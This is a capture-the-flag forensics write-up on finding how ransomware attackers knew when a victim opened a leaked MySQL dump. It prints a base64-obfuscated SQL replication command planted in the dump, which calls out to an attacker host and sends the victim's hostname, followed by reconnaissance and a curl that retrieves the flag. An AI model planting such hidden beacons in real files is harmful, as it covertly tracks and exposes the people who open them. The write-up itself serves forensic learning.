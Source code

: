 # buzzbuzz

Last week, we detected some suspicious activity on the network from outside actors seemingly targeting our servers. We received a ransom email over the weekend, but IT didn't open it up until Tuesday afternoon and verified the stolen data as authentic. We thought the attackers were bluffing since we ignored the email for days, but lo and behold, our systems were indeed encrypted Wednesday afternoon!

How did the attackers know when we opened up the email?

# Solution
After extract, we can see PDF and dump. During the analysis we can find:
```sql
SET @b = 'U0VUIEBiYiA9IENPTkNBVCgiQ0hBTkdFIE1BU1RFUiBUTyBNQVNURVJfUEFTU1dPUkQ9J2J1c3liZWUxMjMnLCBNQVNURVJfUkVUUllfQ09VTlQ9MSwgTUFTVEVSX1BPUlQ9MzMwNiwgTUFTVEVSX0hPU1Q9J2QyNWQtNDRmZi1iM2FhLTFiZDU3MzMzNWNiZi5hZXlpZTRsZWkxYWlkaWU3LmluLXNjb3BlLmlyaXNjLnRmJywgTUFTVEVSX1VTRVI9J2RidXNlciIsIEBAbGNfdGltZV9uYW1lcywgQEBob3N0bmFtZSwgIic7Iik7';
SET @s2 = FROM_BASE64(@b);
```
then we can check it
```bash
❯ echo "U0VUIEBiYiA9IENPTkNBVCgiQ0hBTkdFIE1BU1RFUiBUTyBNQVNURVJfUEFTU1dPUkQ9J2J1c3liZWUxMjMnLCBNQVNURVJfUkVUUllfQ09VTlQ9MSwgTUFTVEVSX1BPUlQ9MzMwNiwgTUFTVEVSX0hPU1Q9J2QyNWQtNDRmZi1iM2FhLTFiZDU3MzMzNWNiZi5hZXlpZTRsZWkxYWlkaWU3LmluLXNjb3BlLmlyaXNjLnRmJywgTUFTVEVSX1VTRVI9J2RidXNlciIsIEBAbGNfdGltZV9uYW1lcywgQEBob3N0bmFtZSwgIic7Iik7" |base64 -d
SET @bb = CONCAT("CHANGE MASTER TO MASTER_PASSWORD='busybee123', MASTER_RETRY_COUNT=1, MASTER_PORT=3306, MASTER_HOST='d25d-44ff-b3aa-1bd573335cbf.aeyie4lei1aidie7.in-scope.irisc.tf', MASTER_USER='dbuser", @@lc_time_names, @@hostname, "';");
```

Thx to above code attackers know when dump was used. Then we can check DNS and open ports.
```bash
❯ host aeyie4lei1aidie7.in-scope.irisc.tf
aeyie4lei1aidie7.in-scope.irisc.tf has address 35.228.27.236
❯ nmap -P0 35.228.27.236
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-07 21:14 CET
Nmap scan report for 236.27.228.35.bc.googleusercontent.com (35.228.27.236)
Host is up (0.0026s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 66.21 seconds
```

Now we can open 8080 and we can see the page:
```html
<!DOCTYPE html>
<html>

<head>
	<title>Billy Bad&#39;s HoneyToken Tool</title>
	<link rel="stylesheet" type="text/css" href="/static/css/style.css">
	<link rel="shortcut icon" type="image/png" href="/static/png/favicon.png">
</head>

<body>

	<h1>Billy Bad's HoneyToken Tool</h1>
	<button onclick="make()">Create a HoneyToken.</button>

	<script src="https://cdn.jsdelivr.net/npm/jquery@3.7.1/dist/jquery.min.js"></script>
	<script>
		function make() {
			alert("This feature has been temporarily disabled.");
//			$.ajax(
//			{
//				type: "POST",
//				url: "/make",
//				success: function(data)
//				{
//					let trigger = data + ".aeYie4lei1aidie7.in-scope.irisc.tf";
//					let control = "http://aeYie4lei1aidie7.in-scope.irisc.tf/manage/" + data;
//					alert("Done. Requests to " + trigger + " can be tracked at " + control + ".");
//				}
//			})
		}
	</script>

</body>
```
based on the data which we have from the mysql dump we can get the flag:
```bash
❯ curl aeyie4lei1aidie7.in-scope.irisc.tf:8080/manage/d25d-44ff-b3aa-1bd573335cbf
<!DOCTYPE html>
<html>

<head>
        <title>HoneyToken Management</title>
        <link rel="stylesheet" type="text/css" href="/static/css/style.css">
        <link rel="shortcut icon" type="image/png" href="/static/png/favicon.png">
</head>

<body>

        <h1>HoneyToken Management</h1>
        <p><b>irisctf{h0neyt0kens_4rent_0nly_us3d_by_th3_wh1te_hat5}</b></p>
        <table id="hits">
                <tr>
                        <th>Timestamp</th>
                        <th>IP Address</th>
                </tr>

                        <tr>
                                <td>2024-01-07 20:11:42</td>
                                <td>172.**.**.**</td>
                        </tr>
...
```


# Flag
`irisctf{h0neyt0kens_4rent_0nly_us3d_by_th3_wh1te_hat5}`

# Hashtags
#forensics